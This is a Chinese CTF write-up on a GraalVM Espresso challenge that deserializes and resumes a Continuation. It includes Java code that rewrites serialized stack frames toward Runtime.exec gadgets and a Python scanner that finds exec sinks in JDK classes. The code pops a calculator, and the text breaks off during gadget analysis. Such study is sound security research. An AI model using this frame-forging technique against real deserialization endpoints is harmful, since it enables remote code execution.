



## TL;DR

当时 @yulate @Pupi1 两位大手子看了很久，并不是常规反序列化，需要构造栈的位置，后来我看@X1r0z 师傅发了geekcon2025 并公开 [Hacking GraalVM Espresso](https://exp10it.io/posts/hacking-graalvm-espresso-abusing-continuation-api-to-make-rop-like-attack/)
接下来重温经典，
ps: 幸好方总有存档的好习惯，要了一份附件😘

```sh
#!/bin/bash

echo $FLAG > /flag
unset FLAG

chown ctf:ctf /flag
chmod 000 /flag

su -p ctf -c "/app/graalvm-espresso-jdk-21.0.2+13.1/bin/java --experimental-options --java.Continuum=true -jar /app/EspressoCoffee.jar"
```

Mac 上这镜像必须 `linux/amd64`，不写的话 debian 会拉成 arm64，里面那份 linux-amd64 的 Espresso 直接起不来。

```yaml
services:
  web:
    platform: linux/amd64
    build: .
    ports:
      - "8000:8000"
    extra_hosts:
      - "host.docker.internal:host-gateway"
    environment:
      - FLAG=flag{test}
```

```dockerfile
FROM --platform=linux/amd64 debian:11-slim

RUN groupadd -r ctf && \
    useradd -m -r -g ctf ctf && \
    mkdir /app/ && \
    chown -R ctf:ctf /app/

COPY --chmod=755 ./files/docker-entrypoint.sh /docker-entrypoint.sh
COPY ./files/EspressoCoffee.jar /app/

ADD https://gds.oracle.com/download/espresso/archive/espresso-java21-24.1.1-linux-amd64.tar.gz /app/

RUN tar -xzvf /app/espresso-java21-24.1.1-linux-amd64.tar.gz -C /app/ && \
    rm /app/espresso-java21-24.1.1-linux-amd64.tar.gz

EXPOSE 8000

ENTRYPOINT [ "/docker-entrypoint.sh" ]
```

GraalVM Espresso JDK 21（Java on Truffle），这不是普通 HotSpot JDK，而是用 Truffle 实现的另一套 JVM。
- --experimental-options：允许实验选项
- --java.Continuum=true：打开 Espresso 的 Continuation API
所以看特性就是这里了。普通 OpenJDK 一跑 `Continuation.create` 就是 `This VM does not support continuations`，payload 只能用同一套 Espresso 生成。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>challenge</groupId>
    <artifactId>EspressoCoffee</artifactId>
    <version>1.0</version>

    <properties>
        <maven.compiler.source>21</maven.compiler.source>
        <maven.compiler.target>21</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.graalvm.espresso</groupId>
            <artifactId>continuations</artifactId>
            <version>24.1.1</version>
            <scope>compile</scope>
        </dependency>
    </dependencies>
</project>
```

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package challenge;

import com.sun.net.httpserver.HttpServer;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.net.InetSocketAddress;
import org.graalvm.continuations.Continuation;

public class Web {
    public static void main(String[] args) throws Exception {
        HttpServer server = HttpServer.create(new InetSocketAddress(8000), 0);
        server.createContext("/", (exchange) -> {
            byte[] content = Web.class.getResourceAsStream("/index.html").readAllBytes();
            exchange.sendResponseHeaders(200, 0L);
            exchange.getResponseBody().write(content);
            exchange.close();
        });
        server.createContext("/coffee", (exchange) -> {
            byte[] data = exchange.getRequestBody().readAllBytes();
            Continuation state = (Continuation)deserialize(data);
            state.resume();
            exchange.sendResponseHeaders(200, 0L);
            exchange.close();
        });
        server.start();
    }

    public static Object deserialize(byte[] arr) {
        try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(arr))) {
            return input.readObject();
        } catch (ClassNotFoundException | IOException var6) {
            return null;
        }
    }
}
```

`/coffee` 就是 `readObject` 完 `resume()`。

看到文章末尾的 generator（`emit` ≈ `suspend`，`nextElement` ≈ `resume`），栈特别长，六大六个栈，我怀疑高手在炫技。

## Continuation

这种反序列化可以暂停、写成字节、再 `resume()` 接着跑。暂停时每一层调用记成一帧：

- `method`：停在哪个方法
- `bci`：停在这个方法的第几条指令
- `pointers`：局部变量（对象）
- `next`：下面那一层

所以本地造写个 job 触发 suspend 即可

```java
class Job implements ContinuationEntryPoint, Serializable {
    public void start(SuspendCapability suspendCapability) {
        suspendCapability.suspend();
    }
}
```

`suspend()` 的返回值恒为 `null`，而且`resume()` 有一条很恶心的规则，停着的那条调用不会再执行。下面那一层返回什么，就当这次调用返回了什么，然后再从这条调用后面继续。

所以如果停在 `getRuntime` 上，`null` 就是 Runtime

```java
package org.example.test;

public class ShowNPE {
    public static void main(String[] args) throws Exception {
        Runtime rt = null;
        rt.exec(new String[]{"open", "-a", "Calculator"});
    }
}
//Exception in thread "main" java.lang.NullPointerException: Cannot invoke "java.lang.Runtime.exec(String[])" because "rt" is null
//at org.example.test.ShowNPE.main(ShowNPE.java:6)
```

要跑到 `exec`，停着的调用得不返回值，`null` 扔掉，后面才能继续

```java
package org.example.test;

public class ShowChain {
    static String[] cmd = {"open", "-a", "Calculator"};

    static String[] printExecCmd(Object skippedPrintln) {
        return cmd;
    }

    static void run() throws Exception {
        Object fromSuspend = null;
        String[] c = printExecCmd(fromSuspend);
        Process p = Runtime.getRuntime().exec(c);
        p.getInputStream().transferTo(System.out);
        p.waitFor();
    }

    public static void main(String[] args) throws Exception {
        run();
    }
}
```



## 本地测试反序列化发现的问题

本地测试用`Job`， `Continuation.create(new Job())` 跑进 `start()`，`suspend()` 停住，得到一个能改的 Continuation。但是题目服务器上没有 Job 这个类，所以会报错。

```java
package org.example.test;

import org.example.common.Job;
import org.example.common.Ser;
import org.graalvm.continuations.Continuation;

import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.lang.reflect.Method;

public class TestJobSer {
    static class DenyJob extends ObjectInputStream {
        DenyJob(InputStream in) throws IOException {
            super(in);
        }

        protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
            String n = desc.getName();
            if (n.equals("Job") || n.endsWith(".Job")) {
                throw new ClassNotFoundException(n);
            }
            return super.resolveClass(desc);
        }
    }

    public static void main(String[] args) throws Exception {
        Continuation continuation = Continuation.create(new Job());
        continuation.resume();
        byte[] withJob = Ser.serialize(continuation);
        try {
            new DenyJob(new ByteArrayInputStream(withJob)).readObject();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }

        Continuation deserialized = (Continuation) Ser.unserialize(withJob);
        Ser.setFieldValue(deserialized, "entryPoint", null);
        Object next = Ser.getFieldValue(deserialized, "stackFrameHead");
        next = Ser.getFieldValue(next, "next");
        next = Ser.getFieldValue(next, "next");
        Method run = Class.forName("sun.print.UnixPrintJob$PrinterSpooler").getDeclaredMethod("run");
        Ser.setFieldValue(next, "method", run);
        Ser.setFieldValue(next, "pointers", new Object[14]);
        Ser.setFieldValue(next, "primitives", new long[14]);
        Ser.setFieldValue(next, "bci", 98);
        Ser.setFieldValue(deserialized, "stackFrameHead", next);
        byte[] noJob = Ser.serialize(deserialized);
        Object ok = new DenyJob(new ByteArrayInputStream(noJob)).readObject();
        System.out.println(ok.getClass().getName());
    }
}
//Exception in thread "main" java.lang.UnsupportedOperationException: This VM does not support continuations.
//at org.graalvm.continuations.Continuation.create(Continuation.java:137)
//at org.example.test.TestJobSer.main(TestJobSer.java:30)
```

所以我们需要把指向 Job 的字段改成 null，发出去的数据里就不再带这个类，记下的调用栈改成 JDK 里就有的方法。再读就能过，打印 ContinuationImpl，只说明数据里已经没 Job 了。

把最上面一帧直接改成 ExecHelper.exec，上面没有一层在调用 exec：

```java
package org.example.test;

import org.example.common.Job;
import org.example.common.Ser;
import org.graalvm.continuations.Continuation;

import java.lang.reflect.Method;

public class TestWrongMethod {
    public static void main(String[] args) throws Exception {
        Continuation continuation = Continuation.create(new Job());
        continuation.resume();
        Continuation deserialized = (Continuation) Ser.unserialize(Ser.serialize(continuation));
        Ser.setFieldValue(deserialized, "entryPoint", null);

        Object next = Ser.getFieldValue(deserialized, "stackFrameHead");
        next = Ser.getFieldValue(next, "next");
        next = Ser.getFieldValue(next, "next");

        Method exec = Class.forName("jdk.internal.org.jline.utils.ExecHelper")
                .getDeclaredMethod("exec", boolean.class, String[].class);
        Object[] pointers = new Object[10];
        pointers[2] = new String[]{"open", "-a", "Calculator"};
        Ser.setFieldValue(next, "method", exec);
        Ser.setFieldValue(next, "pointers", pointers);
        Ser.setFieldValue(next, "primitives", new long[10]);
        Ser.setFieldValue(next, "bci", 18);
        Ser.setFieldValue(deserialized, "stackFrameHead", next);

        deserialized.resume();
    }
}
//Exception in thread "main" org.graalvm.continuations.IllegalMaterializedRecordException: Wrong method on the recorded frames
//at org.graalvm.continuations/org.graalvm.continuations.ContinuationImpl.dematerialize0(Native Method)
//at org.graalvm.continuations/org.graalvm.continuations.ContinuationImpl.ensureDematerialized(ContinuationImpl.java:781)
//at org.graalvm.continuations/org.graalvm.continuations.ContinuationImpl.resume(ContinuationImpl.java:367)
//at org.example.test.TestWrongMethod.main(TestWrongMethod.java:30)
```

24.1.1 会检查，上面那层停着的调用，名字必须等于下面那层的方法，如果对不上就抛出 Wrong method。

每一帧还有一组局部变量，只能放 String、String[] 或 null，ProcessBuilder 放不进去

```java
package org.example.test;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;

public class TestPB {
    public static void main(String[] args) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new ByteArrayOutputStream());
        oos.writeObject(new ProcessBuilder("open", "-a", "Calculator"));
    }
}
//Exception in thread "main" java.io.NotSerializableException: java.lang.ProcessBuilder
//at java.base/java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1200)
//at java.base/java.io.ObjectOutputStream.writeObject(ObjectOutputStream.java:358)
//at org.example.test.TestPB.main(TestPB.java:9)
```

## 静态分析

当然，我们理解到位之后，就知道我们需要找什么类了。
1. 下面那层要停在一个不返回值的调用上，后面自己去执行命令，或者把命令数组返回给上一层；
2. 上面那层停着的调用名字必须等于下面那层的方法；局部变量只能是 String / String[] / null。

先把 Espresso 自带的 JDK 类抽出来，再扫谁调用了 `Runtime.exec` / `ProcessBuilder.start`，以及谁调用了这些方法。

```python
#!/usr/bin/env python3
"""Index invoke* sites: exec sinks, ExecHelper, printExecCmd, and their callers."""
import os
import struct
import sys
from collections import defaultdict
from pathlib import Path

UTF8, INTEGER, FLOAT, LONG, DOUBLE = 1, 3, 4, 5, 6
CLASS, STRING, FIELDREF, METHODREF, IFACEREF = 7, 8, 9, 10, 11
NAMETYPE, METHODHANDLE, METHODTYPE, DYNAMIC, INVOKEDYNAMIC = 12, 15, 16, 17, 18
MODULE, PACKAGE = 19, 20

INVOKES = {0xB6: "invokevirtual", 0xB7: "invokespecial", 0xB8: "invokestatic", 0xB9: "invokeinterface"}
OPLEN = {i: 1 for i in range(256)}
for op in list(range(0x15, 0x1A)) + list(range(0x36, 0x3B)) + [0xA9, 0x10, 0x12, 0xBC] + list(range(0x99, 0xA9)) + [0xC6, 0xC7]:
    OPLEN[op] = 2
for op in [0x11, 0x13, 0x14, 0x84, 0xB2, 0xB3, 0xB4, 0xB5, 0xBB, 0xBD, 0xC0, 0xC1, 0xB6, 0xB7, 0xB8]:
    OPLEN[op] = 3
OPLEN[0xB9] = 5
OPLEN[0xBA] = 5
OPLEN[0xC5] = 4
OPLEN[0xC8] = 5
OPLEN[0xC9] = 5


def u1(b, i):
    return b[i], i + 1


def u2(b, i):
    return struct.unpack_from(">H", b, i)[0], i + 2


def u4(b, i):
    return struct.unpack_from(">I", b, i)[0], i + 4


def parse_cp(b, i):
    count, i = u2(b, i)
    cp = [None] * count
    n = 1
    while n < count:
        tag, i = u1(b, i)
        if tag == UTF8:
            ln, i = u2(b, i)
            cp[n] = ("Utf8", b[i : i + ln].decode("utf-8", "replace"))
            i += ln
        elif tag in (INTEGER, FLOAT):
            cp[n] = (tag, b[i : i + 4])
            i += 4
        elif tag in (LONG, DOUBLE):
            cp[n] = (tag, b[i : i + 8])
            i += 8
            n += 1
        elif tag in (CLASS, STRING, METHODTYPE, MODULE, PACKAGE):
            idx, i = u2(b, i)
            cp[n] = (tag, idx)
        elif tag in (FIELDREF, METHODREF, IFACEREF, NAMETYPE, DYNAMIC, INVOKEDYNAMIC):
            a, i = u2(b, i)
            c, i = u2(b, i)
            cp[n] = (tag, a, c)
        elif tag == METHODHANDLE:
            k, i = u1(b, i)
            idx, i = u2(b, i)
            cp[n] = (tag, k, idx)
        else:
            raise ValueError(f"bad cp tag {tag} at {n}")
        n += 1
    return cp, i


def utf(cp, idx):
    t = cp[idx]
    return t[1] if t and t[0] == "Utf8" else "?"


def clsname(cp, idx):
    t = cp[idx]
    if not t or t[0] != CLASS:
        return "?"
    return utf(cp, t[1]).replace("/", ".")


def nametype(cp, idx):
    t = cp[idx]
    if not t or t[0] != NAMETYPE:
        return "?", "?"
    return utf(cp, t[1]), utf(cp, t[2])


def methodref(cp, idx):
    t = cp[idx]
    if not t or t[0] not in (METHODREF, IFACEREF):
        return None
    owner = clsname(cp, t[1])
    name, desc = nametype(cp, t[2])
    return owner, name, desc


def skip_attrs(b, i, n):
    for _ in range(n):
        _, i = u2(b, i)
        ln, i = u4(b, i)
        i += ln
    return i


def scan_code(code, cp):
    i = 0
    n = len(code)
    invokes = []
    while i < n:
        op = code[i]
        start = i
        if op == 0xC4:
            wop = code[i + 1]
            i += 6 if wop == 0x84 else 4
            continue
        if op == 0xAA:
            pad = (start + 4) & ~3
            lo, hi = struct.unpack_from(">ii", code, pad + 4)
            i = pad + 12 + 4 * (hi - lo + 1)
            continue
        if op == 0xAB:
            pad = (start + 4) & ~3
            np = struct.unpack_from(">i", code, pad + 4)[0]
            i = pad + 8 + 8 * np
            continue
        if op == 0xBA:
            invokes.append((start, "invokedynamic", "?", "?", "?"))
            i = start + 5
            continue
        ln = OPLEN[op]
        if op in INVOKES and start + 3 <= n:
            idx = struct.unpack_from(">H", code, i + 1)[0]
            if 0 <= idx < len(cp):
                ref = methodref(cp, idx)
                if ref:
                    invokes.append((start, INVOKES[op], ref[0], ref[1], ref[2]))
        i = start + ln
    return invokes


def parse_class(data):
    if data[:4] != b"\xca\xfe\xba\xbe":
        return None
    i = 8
    cp, i = parse_cp(data, i)
    acc, i = u2(data, i)
    this, i = u2(data, i)
    super_, i = u2(data, i)
    icount, i = u2(data, i)
    i += 2 * icount
    fcount, i = u2(data, i)
    for _ in range(fcount):
        i += 6
        ac, i = u2(data, i)
        i = skip_attrs(data, i, ac)
    mcount, i = u2(data, i)
    cls = clsname(cp, this)
    methods = []
    for _ in range(mcount):
        macc, i = u2(data, i)
        nidx, i = u2(data, i)
        didx, i = u2(data, i)
        ac, i = u2(data, i)
        mname, mdesc = utf(cp, nidx), utf(cp, didx)
        static = bool(macc & 0x0008)
        max_stack = max_locals = None
        invokes = []
        for _a in range(ac):
            an, i = u2(data, i)
            ln, i = u4(data, i)
            raw = data[i : i + ln]
            i += ln
            if utf(cp, an) == "Code" and len(raw) >= 8:
                max_stack, max_locals, clen = struct.unpack_from(">HHI", raw, 0)
                try:
                    invokes = scan_code(raw[8 : 8 + clen], cp)
                except Exception:
                    invokes = []
        methods.append((mname, mdesc, static, max_locals, max_stack, invokes))
    return cls, methods


def key(owner, name, desc):
    return f"{owner}.{name}{desc}"


def main():
    root = Path(sys.argv[1])
    allm = []
    errs = 0
    for p in root.rglob("*.class"):
        if p.name == "module-info.class":
            continue
        try:
            parsed = parse_class(p.read_bytes())
        except Exception:
            errs += 1
            continue
        if not parsed:
            continue
        cls, methods = parsed
        for m in methods:
            allm.append((cls,) + m)
    print(f"parsed_methods={len(allm)} errs={errs}", file=sys.stderr)

    callers = defaultdict(list)
    for cls, mname, mdesc, static, ml, ms, invokes in allm:
        for iv in invokes:
            if iv[1] == "invokedynamic":
                continue
            callers[key(iv[2], iv[3], iv[4])].append((cls, mname, mdesc, static, iv[0], iv[1], ml, ms))

    interesting_callees = []
    print("\n===== INNER: methods that invoke Runtime.exec / ProcessBuilder.start / ExecHelper.exec =====")
    for cls, mname, mdesc, static, ml, ms, invokes in allm:
        execs = [
            iv
            for iv in invokes
            if (iv[2] == "java.lang.Runtime" and iv[3] == "exec")
            or (iv[2] == "java.lang.ProcessBuilder" and iv[3] == "start")
            or (iv[2] == "jdk.internal.org.jline.utils.ExecHelper" and iv[3] == "exec")
            or (iv[3] == "printExecCmd")
        ]
        if not execs:
            continue
        interesting_callees.append((cls, mname, mdesc, static, ml, ms, invokes, execs))
        kind = "static" if static else "inst  "
        print(f"\n{kind} {cls}.{mname}{mdesc} locals={ml} stack={ms}")
        for e in execs:
            prev_void = None
            for iv in invokes:
                if iv[0] < e[0] and iv[4].endswith(")V") and iv[3] not in ("<init>", "<clinit>"):
                    prev_void = iv
            print(
                f"  sink @{e[0]} {e[1]} {e[2]}.{e[3]}{e[4]} lastVoid={'-' if not prev_void else f'{prev_void[0]} {prev_void[2]}.{prev_void[3]}{prev_void[4]}'}"
            )
        voids = [iv for iv in invokes if iv[4].endswith(")V") and iv[3] not in ("<init>", "<clinit>") and iv[1] != "invokedynamic"]
        if voids:
            print("  allVoids:", " ".join(f"{v[0]}:{v[2]}.{v[3]}" for v in voids[:20]))

    print("\n===== CALLERS of those inner methods =====")
    seen = set()
    for cls, mname, mdesc, static, ml, ms, invokes, execs in interesting_callees:
        k = key(cls, mname, mdesc)
        if k in seen:
            continue
        seen.add(k)
        cs = callers.get(k, [])
        print(f"\ncalled: {k}  n={len(cs)}")
        for c in cs[:30]:
            print(f"  {c[3] and 'static' or 'inst  '} {c[0]}.{c[1]}{c[2]} @{c[4]} {c[5]} locals={c[6]} stack={c[7]}")

    print("\n===== ALL ExecHelper.exec invoke sites =====")
    for c in callers.get("jdk.internal.org.jline.utils.ExecHelper.exec(Z[Ljava/lang/String;)Ljava/lang/String;", []):
        print(f"  {c[3] and 'static' or 'inst  '} {c[0]}.{c[1]}{c[2]} @{c[4]} {c[5]} locals={c[6]} stack={c[7]}")

    print("\n===== ALL printExecCmd invoke sites =====")
    for k, cs in callers.items():
        if ".printExecCmd" in k:
            print(f"{k}")
            for c in cs:
                print(f"  {c[3] and 'static' or 'inst  '} {c[0]}.{c[1]}{c[2]} @{c[4]} {c[5]} locals={c[6]} stack={c[7]}")


if __name__ == "__main__":
    main()
    
    
# jimage extract espresso-jdk/lib/modules --dir jrt
# python3 scripts/scan_all.py jrt
# parsed_methods=302465 errs=0
#
# ===== INNER: methods that invoke Runtime.exec / ProcessBuilder.start / ExecHelper.exec =====
#
# static jdk.internal.org.jline.utils.ExecHelper.exec(Z[Ljava/lang/String;)Ljava/lang/String; locals=5 stack=4
#   sink @101 invokevirtual java.lang.ProcessBuilder.start()Ljava/lang/Process; lastVoid=18 jdk.internal.org.jline.utils.Log.trace([Ljava/lang/Object;)V
#   allVoids: 18:jdk.internal.org.jline.utils.Log.trace 125:jdk.internal.org.jline.utils.Log.trace
#
# inst   sun.print.UnixPrintJob$PrinterSpooler.run()Ljava/lang/Object; locals=6 stack=7
#   sink @98 invokevirtual sun.print.UnixPrintJob.printExecCmd(Ljava/lang/String;Ljava/lang/String;ZLjava/lang/String;ILjava/lang/String;)[Ljava/lang/String; lastVoid=42 sun.print.UnixPrintJob.notifyEvent(I)V
#   sink @106 invokevirtual java.lang.Runtime.exec([Ljava/lang/String;)Ljava/lang/Process; lastVoid=42 sun.print.UnixPrintJob.notifyEvent(I)V
#
# inst   sun.print.PSPrinterJob$PrinterSpooler.run()Ljava/lang/Object; locals=6 stack=7
#   sink @83 invokevirtual sun.print.PSPrinterJob.printExecCmd(Ljava/lang/String;Ljava/lang/String;ZLjava/lang/String;ILjava/lang/String;)[Ljava/lang/String; lastVoid=-
#   sink @91 invokevirtual java.lang.Runtime.exec([Ljava/lang/String;)Ljava/lang/Process; lastVoid=-
#
# static jdk.internal.org.jline.terminal.impl.ExecPty.current(Ljdk/internal/org/jline/terminal/spi/TerminalProvider$Stream;)Ljdk/internal/org/jline/terminal/spi/Pty; locals=2 stack=5
#   sink @11 invokestatic jdk.internal.org.jline.utils.ExecHelper.exec(Z[Ljava/lang/String;)Ljava/lang/String; lastVoid=-
#
# ===== ALL printExecCmd invoke sites =====
# sun.print.UnixPrintJob.printExecCmd(Ljava/lang/String;Ljava/lang/String;ZLjava/lang/String;ILjava/lang/String;)[Ljava/lang/String;
#   inst   sun.print.UnixPrintJob$PrinterSpooler.run()Ljava/lang/Object; @98 invokevirtual locals=6 stack=7
# sun.print.PSPrinterJob.printExecCmd(Ljava/lang/String;Ljava/lang/String;ZLjava/lang/String;ILjava/lang/String;)[Ljava/lang/String;
#   inst   sun.print.PSPrinterJob$PrinterSpooler.run()Ljava/lang/Object; @83 invokevirtual locals=6 stack=7
#
# ===== ALL ExecHelper.exec invoke sites =====
#   static jdk.internal.org.jline.terminal.impl.ExecPty.current(Ljdk/internal/org/jline/terminal/spi/TerminalProvider$Stream;)Ljdk/internal/org/jline/terminal/spi/Pty; @11 invokestatic locals=2 stack=5
#   inst   jdk.internal.org.jline.terminal.impl.ExecPty.doSetAttr(Ljdk/internal/org/jline/terminal/Attributes;)V @82 invokestatic locals=3 stack=3
#   inst   jdk.internal.org.jline.terminal.impl.ExecPty.doGetConfig()Ljava/lang/String; @23 invokestatic locals=1 stack=5
#   inst   jdk.internal.org.jline.terminal.impl.ExecPty.doGetConfig()Ljava/lang/String; @58 invokestatic locals=1 stack=5
#   inst   jdk.internal.org.jline.terminal.impl.ExecPty.setSize(Ljdk/internal/org/jline/terminal/Size;)V @50 invokestatic locals=2 stack=5
#   inst   jdk.internal.org.jline.terminal.impl.ExecPty.setSize(Ljdk/internal/org/jline/terminal/Size;)V @115 invokestatic locals=2 stack=5
```

输出里 `sink @数字` 是这条调用在方法里的位置，`lastVoid` 是它前面最近一次不返回值的调用，没有就是 `-`。

`UnixPrintJob$PrinterSpooler.run` 在 98 调用 `printExecCmd`，106 再 `Runtime.exec`。谁调用 `printExecCmd` 也只有这一处。`printExecCmd` 里面停在哪，要再反编译看：

```bash
javap -c -p jrt/java.desktop/sun/print/UnixPrintJob\$PrinterSpooler.class
#       98: invokevirtual #140                // Method sun/print/UnixPrintJob.printExecCmd:(Ljava/lang/String;Ljava/lang/String;ZLjava/lang/String;ILjava/lang/String;)[Ljava/lang/String;
#      101: astore_2
#      102: invokestatic  #144                // Method java/lang/Runtime.getRuntime:()Ljava/lang/Runtime;
#      106: invokevirtual #150                // Method java/lang/Runtime.exec:([Ljava/lang/String;)Ljava/lang/Process;

javap -c -p jrt/java.desktop/sun/print/UnixPrintJob.class
#      367: invokevirtual #799                // Method java/io/PrintStream.println:()V
#      370: aload         13
#      372: areturn
```

`printExecCmd` 在 367 调 `println()`，这个调用不返回值，停在这里 `null` 可以扔掉。然后取出第 13 个局部变量返回，那就是命令数组。上面那层 `run` 停在 98，98 正在调的就是 `printExecCmd`，98 后面把返回的数组交给 `Runtime.exec`。局部变量用占位字符串，命令放最后一个位置。`PSPrinterJob` 也有同名方法，但结尾是 `invokedynamic`，利用不了

`ExecHelper.exec` 会触发 `ProcessBuilder.start`，前面最近一次不返回值的调用在 18，是 `Log.trace()`。上面没有一层在调用 `exec`，所以要找谁在调用 `ExecHelper.exec`。输出最后一段全是 `ExecPty`，其中 `current` 停在 11

```bash
javap -c -p jrt/jdk.internal.le/jdk/internal/org/jline/utils/ExecHelper.class
#       18: invokestatic  #15                 // Method jdk/internal/org/jline/utils/Log.trace:([Ljava/lang/Object;)V
#       21: new           #21                 // class java/lang/ProcessBuilder
#       26: invokespecial #23                 // Method java/lang/ProcessBuilder."<init>":([Ljava/lang/String;)V
#      101: invokevirtual #69                 // Method java/lang/ProcessBuilder.start:()Ljava/lang/Process;

javap -c -p jrt/jdk.internal.le/jdk/internal/org/jline/terminal/impl/ExecPty.class
#   public static jdk.internal.org.jline.terminal.spi.Pty current(jdk.internal.org.jline.terminal.spi.TerminalProvider$Stream)
#        0: iconst_1
#        1: iconst_1
#        2: anewarray     #1                  // class java/lang/String
#        5: dup
#        6: iconst_0
#        7: getstatic     #3                  // Field jdk/internal/org/jline/utils/OSUtils.TTY_COMMAND:Ljava/lang/String;
#       10: aastore
